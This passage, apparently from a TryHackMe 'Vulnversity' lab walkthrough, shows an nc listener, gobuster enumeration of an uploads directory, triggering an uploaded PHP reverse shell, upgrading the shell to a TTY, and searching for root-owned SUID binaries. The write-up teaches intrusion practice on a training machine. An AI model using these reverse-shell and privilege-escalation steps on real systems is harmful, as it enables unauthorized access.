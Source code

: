 
```bash
nc -nlvp 443
```


Great, we have everything setup. But... were is the file located in the website? We only discovered the *internal* directory, not the uploaded files directory. We didn't get
any other interesting directory at root of the page so let's check if the *internal* directory is hiding subdirectories: 


```bash
gobuster dir -u http://[ip_address]:3333/internal -w /usr/share/Seclists/Discovery/Web-Content/directory-lists-2.3-medium.txt -t 20
```

![uploadDirectory](/assets/images/tryhackme/vulnversity/11 uploadDirectory.png)


*/uploads* looks promising. If we navigate to http://[ip address]:3333/internal/uploads/php-reverse-shell.phtml, our listener recieves a shell:


![reverseShell](/assets/images/tryhackme/vulnversity/12 ReverseShell.png)


You can use the folowing commands to get an interactive bash shell instead of the one that we recieve by default in nc:


```bash
script /dev/null -c bash
^Z #control + z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 43 columns 183 #use stty size command in another window to determine your rows and columns size
```

![tty](/assets/images/tryhackme/vulnversity/13 TratamientoTty.png)


# Privilege Escalation


By using the following command we can search for files with suid permission enabled and that are owned by the root user:


```bash
find / -user root -perm -4000 2>&1 | grep -v "Permission" | grep -v "No such"
```


![suid](/assets/images/tryhackme/vulnversity/14 suid.png)
